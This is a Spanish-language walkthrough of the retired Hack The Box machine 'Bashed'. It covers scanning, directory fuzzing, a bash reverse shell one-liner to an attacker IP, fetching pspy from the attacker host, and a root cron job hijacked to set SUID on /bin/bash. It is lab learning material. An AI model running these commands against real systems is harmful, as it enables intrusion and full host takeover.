









---
# Información
---


| **Nombre**            | Bashed       |
| --------------------- | ------------ |
| **Plataforma**        | Hack The Box |
| **Año de creación**   | 2017         |
| **Estatus**           | Retirada     |
| **Creador**           | Arrexel      |
| **Sistema operativo** | Linux        |

## Vectores y Técnicas Empleadas

- **Reconocimiento:** Web Fuzzing (Directorios y archivos ocultos).
- **Acceso Inicial:** Explotación de consola web interactiva.
- **Enumeración Interna:** Monitoreo dinámico de procesos mediante **pspy**.
- **Escalada de Privilegios:** Explotación de tareas programadas (**Cron jobs**) mediante **Python Script Hijacking** y manipulación de permisos **SUID**.

---
# 1. Reconocimiento
---

## Prueba de conectividad (Ping)

Se verificó la disponibilidad del host mediante **ICMP**, enviando 4 paquetes para asegurar la estabilidad del enlace.

**Comando ejecutado:**

```bash
ping -c 4 10.129.5.176
```



**Resultados:**

- **Conectividad:** 0% de pérdida de paquetes (conexión estable).

- **OS Hint:** El **TTL de 63** sugiere un sistema operativo **Linux** (valor inicial de 64 menos un salto de red a través de la VPN).

---

## Escaneo de puertos (TCP)

Se realizó un escaneo exhaustivo de todo el espectro de puertos (**65535**) para identificar servicios expuestos.

**Comando ejecutado:**

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.5.176 -oN full-ports
```

**Parámetros clave:**

- `-p- --open`: Escanea todos los puertos y reporta solo los abiertos.
- `-sS`: Ejecuta un **TCP SYN Stealth Scan** (técnica de escaneo semi-abierto).
- `--min-rate 5000`: Agiliza el proceso enviando al menos 5000 paquetes por segundo.
- `-Pn -n`: Omite el descubrimiento de host (_no ping_) y la resolución DNS para reducir ruido y tiempo.
- `-oN`: Exporta los resultados en formato Nmap al archivo `full-ports`.



**Análisis de Resultados**

- El escaneo identificó únicamente el puerto `80/TCP (HTTP)` como abierto.

**Estrategia:**
Aunque se podría proceder con un escaneo de puertos *UDP*, se prioriza la enumeración del servicio HTTP debido a que las aplicaciones web suelen representar la superficie de ataque más extensa y con mayores vectores de explotación potenciales.

---
# 2. Enumeración
---

## Detección de versiones y NSE

Se realizó un escaneo dirigido al puerto **80** para identificar la versión específica del servicio y ejecutar los _scripts_ de enumeración por defecto de **Nmap (NSE)**.

**Comando ejecutado:**

```bash
nmap -p 80 -sCV 10.129.5.176 -oN versions-nse.txt
```

**Parámetros:**

- `-p 80`: Escaneo filtrado únicamente al puerto HTTP.
- `-sV`: Detecta la versión del servicio en ejecución.
- `-sC`: Ejecuta el conjunto de _scripts_ predeterminados para identificar vulnerabilidades o configuraciones comunes.
- `-oN`: Guarda el _output_ en un archivo de texto para referencia posterior.



### Análisis de Resultados (Nmap NSE)

El escaneo detallado del puerto 80 no reveló vulnerabilidades críticas inmediatas, pero proporcionó datos clave para la fase de enumeración del servicio web:

- **Servidor Web:** Apache `httpd 2.4.18` (Ubuntu).
   
    - **Implicación:** Confirma el SO **Linux**; la versión del paquete es característica de **Ubuntu 16.04 (Xenial Xerus)**.

- **Título HTML:** `Arrexel's Development Site`.

    - **Implicación:** Sugiere un entorno de desarrollo, lo que suele indicar la presencia de archivos temporales, directorios de prueba o código fuente expuesto.

---

## Exploración de la página web y revisión de tecnologías

Se utilizó **WhatWeb** para realizar una huella digital (_fingerprinting_) del servidor y detectar componentes adicionales en la pila tecnológica.

**Comando ejecutado:**

```bash
whatweb http://10.129.5.176
```

**Resultados y Hallazgos:** El análisis confirmó una infraestructura estándar sin vectores de ataque inmediatos basados en componentes desactualizados:

- **Servidor:** Apache 2.4.18 (Ubuntu).
- **Librerías/Frameworks:** jQuery (JavaScript).
- **Frontend:** HTML5 y plantillas de **Colorlib** (identificado vía Meta-Author).
- **Estado HTTP:** `200 OK`.

```bash
http://10.129.5.176 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.5.176], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

### Inspección Visual de la Aplicación Web

Se realizó una auditoría manual de la interfaz gráfica en `http://10.129.5.176` para identificar elementos interactivos y posibles puntos de entrada de datos.

**Objetivos de la inspección:**

- **Formularios y campos de entrada:** Búsqueda de parámetros vulnerables a inyecciones (SQLi, XSS, OS Command Injection).
- **Secciones de autenticación:** Identificación de paneles de administración o rutas de inicio de sesión.
- **Comentarios y metadatos:** Revisión del código fuente (`Ctrl + U`) en busca de rutas ocultas o credenciales en comentarios HTML.



#### Hallazgos de la Inspección Visual

Se identificó una funcionalidad que emula una **terminal (Web Shell)** integrada en el sitio. El portal incluye un mensaje confirmando que el desarrollo del proyecto se realiza localmente en el servidor.

**Análisis de Riesgo:** Esta funcionalidad representa un **punto crítico de exposición**. Si la aplicación no implementa una sanitización adecuada de los _inputs_ y ejecuta los comandos directamente en el sistema operativo subyacente, el servidor es vulnerable a una **Inyección de Comandos (OS Command Injection)**, permitiendo potencialmente el compromiso total del host.

---

## Fuzzing de directorios web

A pesar del hallazgo no se encontró un punto de acceso para dicha *Web-Shell*, se procedió al ataque de fuerza bruta para directorios ocultos utilizando **Gobuster**.

**Comando ejecutado:**

```bash
gobuster dir -u http://10.129.5.176 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x php,js,html -o Directory-FUZZ.txt
```

### Resultado:

Tras la enumeración de directorios, se identificó la ruta `/dev/` como el activo de mayor criticidad. Este hallazgo es consistente con la información recolectada en la fase de inspección visual, donde se mencionaba un entorno de desarrollo activo en el servidor.

**Hallazgos en `/dev/`:** Al acceder al directorio, se confirmó la presencia del proyecto en fase beta. La funcionalidad principal consiste en una **Web Shell** operativa que permite la ejecución de comandos de sistema a través de la interfaz web.

**Acción inmediata:** Se procedió a la validación de la **ejecución remota de comandos (RCE)** para determinar el nivel de privilegios del usuario bajo el cual se ejecuta el servicio web.



---

## Prueba de Concepto: RCE y Enumeración Local

Se validó la **Ejecución Remota de Comandos (RCE)** interactuando con la interfaz en `/dev/`. La shell web permitió la ejecución de comandos con los privilegios del usuario de servicio (`www-data`).

**Acciones realizadas:**

- **Listado de directorios:** Se confirmó el acceso al sistema de archivos local, logrando visualizar el contenido del directorio raíz y la ubicación de archivos sensibles.

- **Exfiltración de información:** Se realizó la lectura de la **flag (user.txt)** y se identificaron usuarios del sistema mediante el archivo `/etc/passwd`, destacando al usuario **arrexel**.

**Validación de conectividad de salida (Outbound):** Antes de proceder con la intrusión, es imperativo verificar si el objetivo permite conexiones salientes hacia la máquina atacante. Esto determinará si es posible establecer una **Reverse Shell** o si existen reglas de firewall (iptables/ufw) que bloqueen el tráfico.

### Validación de Conectividad Outbound (ICMP Exfiltration)

Antes de intentar una **Reverse Shell**, se verificó si el objetivo permitía tráfico saliente hacia la red de la VPN (**tun0**), lo que descartaría la presencia de reglas de firewall restrictivas.

**Preparación del receptor (Máquina Atacante):** Se configuró un sniffer de red para filtrar únicamente tráfico **ICMP** en la interfaz de la VPN:

```bash
sudo tcpdump -i tun0 icmp
```

**Ejecución de la prueba (Máquina Objetivo):** Desde la Web Shell, se enviaron cuatro paquetes de prueba hacia la IP del atacante:

```bash
ping -c 4 10.10.16.77
```

**Resultado:** La captura de paquetes en `tcpdump` confirmó la recepción de los _ICMP Echo Requests_. Este éxito valida que el tráfico saliente no está filtrado, permitiendo proceder con la fase de **Intrusión y Establecimiento de Shell Inversa**.



---
# 3. Explotación (acceso inicial)
---

## Fase de Intrusión (Reverse Shell)

Para establecer una conexión persistente, se utilizó un _one-liner_ de **Bash Reverse Shell**. Debido a que la carga útil (_payload_) se transmite mediante una petición HTTP, fue necesario aplicar **URL-Encoding** a los caracteres especiales para evitar errores de interpretación por parte del servidor web.

**Desafío técnico:** El uso de caracteres como `&` (utilizado en Bash para redirección de descriptores de archivo) interfiere con la estructura de las consultas HTTP, donde `&` actúa como separador de parámetros. Para asegurar la integridad del comando, se codificó `&` como `%26`.

**Comando ejecutado:**

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.77/3000 0>&1"
```

**Receptor en máquina atacante:** Previo al envío, se habilitó un _listener_ con **Netcat** en el puerto especificado:

```bash
nc -lvnp 3000
```

**Resultado:** Se obtuvo una shell interactiva exitosa como el usuario **www-data**.

---

## Movimiento lateral (`scriptmanager`)

Una vez dentro de la máquina durante la fase de enumeración interna del sistema, al ejecutar el comando: `sudo -l`, el sistema mostró que `www-data`, puede ejecutar cualquier comando como el usuario: `scriptmanager`, por lo cual se procedió a realizar el movimiento lateral a dicho usuario.

**Comando ejecutado:**

```bash
sudo -u scriptmanager -i
```

#### Resultado y primera flag

Tras la ejecución del comando, se estableció una conexión inversa exitosa. Mediante la enumeración de procesos o archivos mal configurados (o el uso de credenciales encontradas), se logró el **movimiento lateral** al usuario **scriptmanager**.

**Acciones realizadas:**

- **Confirmación de identidad:** `whoami` -> `scriptmanager`.
- **Exfiltración de User Flag:** Se realizó la lectura del archivo `user.txt` ubicado en el directorio _home_ del usuario.

**Siguiente fase: Escalada de Privilegios (PrivEsc)** Con acceso inicial consolidado, el objetivo se desplaza hacia la **enumeración local del sistema**. Se buscarán vectores comunes de elevación de privilegios




---
# 4. Post-Explotación
---

## Escalada de privilegios

Tras obtener acceso inicial, se procedió con una **fase de enumeración post-explotación** orientada a identificar vectores de elevación de privilegios. Se ejecutaron los siguientes comandos para auditar permisos de usuario, configuraciones del kernel y binarios con capacidades especiales:

**Comandos usados:**

```bash
# Verificar privilegios de sudo asignados al usuario actual
sudo -l 

# Validar pertenencia a grupos de interés (e.g., lxd, docker, disk)
id

# Identificar versión del kernel y arquitectura para posibles exploits locales
uname -a

# Búsqueda de binarios con el bit SUID configurado (propietario root)
find / -perm -4000 -user root 2>/dev/null  

# Inspección de 'Capabilities' en archivos del sistema
getcap -r / 2>/dev/null

# Análisis de servicios internos y puertos en escucha (Localhost)
netstat -ant
```

### Enumeración de Tareas Programadas

Ante la ausencia de vectores de ataque evidentes en la configuración estática, se procedió a realizar un análisis de **procesos dinámicos** y tareas ejecutadas a intervalos (Cron jobs). Debido a la restricción de privilegios para listar el `crontab` de otros usuarios, se utilizó **pspy64** para interceptar la ejecución de procesos sin necesidad de permisos de root.

**Transferencia y Ejecución**
Para evitar dejar rastro persistente, se trabajó sobre el directorio `/tmp`.

**Máquina Atacante:**

```bash
python 3 -m http.server 80
```

**Máquina Víctima:**

```bash
cd /tmp
wget http://10.10.16.77/pspy64  # Transferencia del binario vía HTTP
chmod +x pspy64                 # Asignación de permisos de ejecución
./pspy64                        # Monitoreo de procesos en tiempo real
```

**Análisis de Resultados**

Tras monitorizar el sistema, se identificó una tarea que se ejecuta con **intervalo de un minuto** bajo el contexto de un usuario privilegiado:

> `CMD: /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done`

**Hallazgos clave:**

- **Lógica de ejecución:** El comando realiza una iteración (`for loop`) sobre todos los archivos con extensión `.py` dentro del directorio `/scripts`.

- **Vector de ataque:** Si el usuario actual posee permisos de escritura en `/scripts`, es posible realizar un **Python Script Hijacking** o aprovechar el uso de comodines (_wildcards_) para ejecutar código arbitrario como el propietario de la tarea.



#### ## Escalada de Privilegios: Explotación de Tareas Programadas

Tras identificar la ejecución recurrente de scripts en el directorio `/scripts`, se realizó una revisión de permisos sobre dicha ruta:

```bash
ls -ld /scripts
# Resultado: drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 /scripts
```

**Análisis del Vector de Ataque**

Se determinó que el usuario **scriptmanager** posee el control total (**propietario**) sobre el directorio. Dado que un proceso de **root** ejecuta mediante un _wildcard_ (`*.py`) cualquier script contenido en esa ruta cada minuto, existe un vector de **Inyección de Código Arbitrario**.

Al tener permisos de escritura, podemos depositar un script malicioso que será interpretado por el motor de Python con privilegios de superusuario.

**Explotación: Persistencia vía SUID Bash**

Se optó por una técnica de escalada mediante la modificación de permisos del binario `/bin/bash`. Al asignar el bit **SUID** (Set User ID) a la shell, cualquier usuario podrá invocarla preservando los privilegios del propietario (root).

**Ejemplo del script:**

```python
import os
# Asigna permisos 4755 a la bash (rwsr-xr-x)
# El '4' activa el bit SUID
os.system("chmod 4755 /bin/bash")
```

**Pasos finales para el compromiso total:**

1. **Transferencia/Creación:** Se guarda el código anterior dentro de `/scripts/exploit.py`.

2. **Espera:** Se aguarda a la siguiente ejecución de la tarea programada (máximo 60 segundos).

3. **Verificación:** Se confirma que los permisos de la bash hayan cambiado: `ls -l /bin/bash`.

4. **Ejecución:** Se invoca la shell con el parámetro `-p` para no omitir los privilegios efectivos:



---

